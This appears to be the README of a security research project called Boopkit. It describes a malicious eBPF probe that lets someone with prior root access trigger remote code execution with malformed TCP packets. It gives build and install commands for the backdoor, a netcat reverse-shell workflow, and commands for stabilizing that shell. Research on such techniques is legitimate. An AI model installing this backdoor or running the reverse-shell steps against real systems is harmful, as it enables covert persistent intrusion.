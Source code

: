 # Boopkit

A research project to demonstrate remote code injection over TCP with a malicious eBPF probe installed on a server.

Tested on Linux 5.17

##### Disclaimer

> This is **NOT** an exploit! This requires prior priviliged access on a server in order to work!
> I am a professional security researcher. These are white hat tools used for research purposes only.
> Use this responsibly. Never use this software illegaly.

# Demo

Install `boopkit` on a server that is already running any TCP service (EG: Kubernetes, SSH, nginx, etc).

```
git clone git@github.com:kris-nova/boopkit.git
cd boopkit
make
sudo ./boopkit > /var/log/boop.log &
```

Trigger a reverse shell over an existing TCP service. Edit the `remote` launcher script and point it at any TCP server running on the exploited machine!

```
cd remote
# edit ./remote as needed
./remote
python -c "import pty; pty.spawn('/bin/bash')"
```

Enjoy :)

# Boop Vectors

Boopkit can "boop" the probe remotely in many ways. 

### 1. Bad Checksum

The first boop that is attempted by the trigger is sending a malformed TCP SYN packet with an uncalculated checksum. This is an extremely lightweight and versatile boop as it can be ran against any server regardless if the server currently has an application running and accepting TCP connections! Yes. You can literally just "boop" a server and trigger a bad checksum as the kernel by default is listening for sockets on all ports.

### 2. TCP Resets

The first boop is scary, but not always reliable. Most modern networking hardware will drop malformed packets such as the ones required for the first boop. So a slightly less versatile vector is to boop an active TCP server in the hopes of causing the TCP server to trigger a TCP reset in the kernel. This can be done by pointing the `/trigger` program at a TCP service such as OpenSSH or Kubernetes.

These TCP resets are much riskier, less reliable, and noiser from a kernel perspective. There is also no guarantee that a TCP service will actually trigger the TCP reset tracepoint. By default Boopkit will attempt to create a more reliable SOCK_STREAM style connection before attempting the TCP reset boop, simply to validate that the remote is online and responding to TCP.


# Components

| eBPF Probe | Malicious Userspace Program                           | Remote Trigger                                              |
|------------|-------------------------------------------------------|-------------------------------------------------------------|
| Responsible for sending `tracepoint/tcp/tcp_bad_sum` events to userspace | Persistent process in Linux, that does the dirty work | Remote way to trigger the RCE over a network and TCP server |


### eBPF Probe

Can be loaded into the kernel at runtime using the userspace loader program. 
The probe responds to `tcp/tcp_bad_csum` events and will pass the `saddr` (Source Address) up to userspace using an eBPF map.


### Loader Program

This is the malicious program that will respond to the bad checksum packets sent to the server. 
Whenever a malicious packet is sent, the loader program responds with remote code execution.


### Trigger/Remote

The `trigger` binary is a small C program that will send a malformed `SYN` request without a properly calculated checksum to the server.

The `remote` script wraps the `trigger` and will use `netcat` to listen for a reverse shell.

### eBPF and Loader Compile Time Dependencies 

 - 'clang'
 - 'linux-headers'
 - 'llvm'
 - 'libbpf'
 - 'lib32-glibc'

### Boopkit runtime dependencies 

 - Linux kernel with eBPF enabled/supported
 - Ncat running on the server
 - Root access :) 

# Reverse Shell Stabilization

After a successful `/remote` the shell will be very unsightly. It is possible to use [JasonTurley.xyz](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/)'s suggestion to stablize the shell.

Select one of the commands to run in order to start a cleaner shell.

```bash
python -c "import pty; pty.spawn('/bin/bash')"
ruby -e "exec '/bin/bash'"
perl -e "exec '/bin/bash';"
```

Next move the newly created shell to the background on your local terminal.

```
Ctrl + z
```

Update the stty locally. 

```bash
stty raw -echo && fg
```

Finally, reconfigure the terminal! 

```bash
export TERM=xterm-256-color
```

